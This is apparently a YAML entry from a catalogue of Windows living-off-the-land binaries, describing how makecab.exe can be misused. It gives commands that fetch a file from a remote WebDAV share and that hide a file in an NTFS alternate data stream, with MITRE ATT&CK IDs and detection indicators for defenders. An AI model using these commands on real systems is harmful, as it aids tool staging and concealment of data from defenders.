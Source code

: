 ```yaml
---
name: Makecab.exe
description: Binary to package existing files into a cabinet (.cab) file
functions:
  download:
    - description: Download and compresses the target file and stores it in the target file.
      code: makecab \\webdavserver\webdav\file.exe C:\Folder\file.cab
      mitreid: T1105
      mitrelink: https://attack.mitre.org/wiki/Technique/T1105
      operatingsystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10
      privileges: User
      usecase: Download file and compress into a cab file
  ads:
    - description: Compresses the target file into a CAB file stored in the Alternate Data Stream (ADS) of the target file.
      code: makecab c:\ADS\autoruns.exe c:\ADS\cabtest.txt:autoruns.cab
      mitreid: T1096
      mitrelink: https://attack.mitre.org/wiki/Technique/T1096
      operatingsystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10
      privileges: User
      usecase: Hide data compressed into an alternate data stream
resources:
    - resource: https://gist.github.com/api0cradle/cdd2d0d0ec9abb686f0e89306e277b8f
fullpath:
    - path: C:\Windows\System32\makecab.exe
    - path: C:\Windows\SysWOW64\makecab.exe
detection:
  - IOC: Makecab getting files from Internet
  - IOC: Makecab storing data into alternate data streams
acknowledgement:
  - Person: Oddvar Moe
    Handle: '@oddvarmoe'
---
```

